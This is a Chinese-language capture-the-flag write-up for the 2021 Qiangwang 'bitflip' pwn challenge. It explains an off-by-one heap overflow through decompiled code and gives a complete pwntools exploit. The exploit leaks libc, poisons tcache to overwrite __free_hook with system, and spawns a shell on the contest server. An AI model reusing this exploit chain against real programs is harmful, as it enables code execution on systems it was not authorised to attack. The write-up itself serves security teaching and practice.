 # 第四届“强网”拟态防御国际精英挑战赛 2021 pwn **bitflip**

> challenge name: `bitflip`
>
> file: `bitflip`, libc-2.27.so
>
> ld.so and .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/hex-16
>

是`old_school`的进阶版，也是在edit操作中存在Off-By-One漏洞，create时要求size最大为0x50，这个大小在tcache被填满之后，会进入到fastbin而不会进入到unsorted bin。所以要用Off-By-One改大size域，使得chunk可以进入unsorted bin，其余过程则与`old_school`类似，即拿到一个chunk，这个chunk是可以控制一个在tcache中的chunk的fw域的。最后做tcache poisoning

注意事项：改size时，要注意size大小可能导致unsorted bin有关的安全检查过不了

内存布局+思路：

```python
c1(0x40)
c2(0x40) # 利用c1把c2的size改大(0xa1)，设法把c2放入unsortedbin里
c3(0x30) # 放到tcache(0x30)里，要为第一个chunk，即要最后free # tcache(0x30) cnt=2: c3->c4
c4(0x30) # 陪着c3进tcache(0x30)，只是为了增大tcache(0x30)的cnt为2
# 两个两个malloc，malloc 7 对 chunk(14个)，用前一个chunk改大下一个chunk的size为0xa1
# 把size改为0xa1的chunk释放，填满tcache(0xa0)
# 释放c2，c2进入unsorted bin: 0xa0
# malloc(0x40) 把c2 拿回来，unsorted bin中还有一个 0x60 的chunk
# malloc(0x30) 再从unsorted bin拿一个0x30的chunk，其实这个就是c3了，然后就可以编辑c3的fw
```

一句话概括：把一个chunk的size改大，释放到unsorted bin的时候把一个在tcache中的chunk给“顺”进unsorted bin了，然后就可以拿回来任意编辑。

> 注意这里的描述与exp中的有些许出入，exp中有的chunk是无用的，做了一些没有必要的操作。

# IDA Analysis

- create: idx<= 0x1f; size<=0x50。这个size在tcache填满时，放入fastbin
- edit: size为0x28, 0x38, ...时，可以覆盖下一chunk的size的最低1B为任意数字，即存在Off-By-One

```cpp
unsigned __int64 edit()
{
  unsigned __int64 idx_ori; // rbx
  __int64 size_ori; // rbp
  _BYTE *ptr; // rbx
  __int64 size_plus1; // rbp
  _BYTE *end_addr; // rbp
  unsigned __int64 temp; // [rsp+0h] [rbp-28h] BYREF
  unsigned __int64 v7; // [rsp+8h] [rbp-20h]

  v7 = __readfsqword(0x28u);
  __printf_chk(1LL, "Index: ");
  __isoc99_scanf(&ald, &temp);
  idx_ori = temp;
  if ( temp <= 0x1F )
  {
    if ( arrPtr[temp] )
    {
      __printf_chk(1LL, "Content: ");
      size_ori = arrSize[idx_ori];
      ptr = (_BYTE *)arrPtr[idx_ori];
      size_plus1 = size_ori + 1;
      if ( size_plus1 )
      {
        end_addr = &ptr[size_plus1];
        do
        {
          read(0, ptr, 1uLL);   // 可以编辑ptr[size]所在的byte 即多写1B任意字符，Off-By-One
          if ( *ptr == '\n' )
            break;
          ++ptr;
        }
        while ( ptr != end_addr ); // ptr[size+1]
      }
    }
  }
  return __readfsqword(0x28u) ^ v7;
}
```



# exp

c0是没用的，debug时遗留的罢了。c5是不必的，因为后面只从tcache(0x30)中malloc了两次。

```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"
IP = "124.71.130.185"
PORT = 49154
DEBUG = 1


if DEBUG:
    p = process(["./ld.so", "./bitflip"], env={"LD_PRELOAD": "./libc-2.27.so"})
    libc = ELF("./libc-2.27.so")
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[1].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())

else:  # flag{2296341872d87bd532c121d14d55c4ac}
    p = remote(IP, PORT)
    libc = ELF("./libc-2.27.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        # cmd += "b *%d\n" % (base + 0xC0E)  #
        cmd += "set $a=%d\n" % (base + 0x202160)  # arrPtr
        debug(cmd)


def create(idx, size):
    sla("Your choice: ", str(1))
    sla("Index: ", str(idx))  # max: 0x1F # 0~32
    sla("Size: ", str(size))  # max: 0x50
    ru("Done!")


def edit(idx, content):
    sla("Your choice: ", str(2))
    sla("Index: ", str(idx))
    sa("Content: ", content)


def show(idx):
    sla("Your choice: ", str(3))
    sla("Index: ", str(idx))
    ru("Content: ")
    return ru("\n1. BF create")[:-13]


def remove(idx):
    sla("Your choice: ", str(4))
    sla("Index: ", str(idx))


# === Step-1: prepare a chunk(0xa0), tcache(0x30) cnt=3
create(0, 0x38)
edit(0, "chunk0".ljust(0x47, '0') + '\n')
create(1, 0x38)
create(2, 0x38)  # c2 size=0x40
edit(1, "to_unsorted_bin".ljust(0x38, 'a') + chr(0xa1))  # Off-By-One # c2 size=0xa0
# prepare tcache(0x30) for tcache poisoning in last step
# c3将被放到tcache(0x30)的头部，同时被c2“顺”进unsorted_bins
create(3, 0x28)  # c3 0x30 # covered by c2 
create(4, 0x28)  # c4 0x30 # covered by c2
create(5, 0x28)  # c5 0x30 # NOT covered by c2
remove(5)
remove(4)
remove(3)  # tcache(0x30)cnt3: c3, c4, c5

# === Step-2: full tcache(0xa0), a chunk to unsorted bin
for i in range(6, 19, 2):  # tcache(0x40)
    print("i=", i)
    create(i, 0x38)      # 6, 8, 10, 12, 14, 16, 18
    create(i + 1, 0x38)  # 7, 9, 11...
    edit(i, "toEditNextChunk".ljust(0x38, '0') + chr(0xa1))

for i in range(19, 6, -2):
    print("free i=", i)  # 19, 17, ... 7
    remove(i)  # full tcache(0xa0)
remove(2)  # c2 to unsorted bin
# tcache(0xa0)cnt=7: c7, c9, .. c19 # unsorted_bin cnt=1: 0xa0

# === Step-3: get chunk(size=0x40) from unsorted bin, 0x60 left; leak libc addr
create(2, 0x38)
data = show(2)
print("data:", data, data.hex())
temp = u64(data.ljust(8, b"\x00"))
libc.address = temp - 0x7f7669cc7d30 + 0x00007f76698dc000
print("libc.address:", libc.address, hex(libc.address), hex(temp))
dd()

# tcache(0xa0)cnt=7 # tcache(0x40)cnt=3: c3, c4, c5 # unsorted_bins 0x60
# === Step-4: get chunk(0x50) from unsorted bin, also c3
create(22, 0x48)  # unsorted_bins cnt=1: 0x20
edit(22, p64(libc.symbols["__free_hook"]) + b'\n')  # cover c3 fw with &__free_hook
create(23, 0x28)  # get c3 from tcache(0x30) # tcache(0x30)cnt=2: &__free_hook
create(24, 0x28)  # get &__free_hook
edit(24, p64(libc.symbols["system"]) + b'\n')  # cover __free_hook with system
edit(23, "/bin/sh\x00\n")
remove(23)  # system("/bin/sh\x00\n")


p.interactive()

```

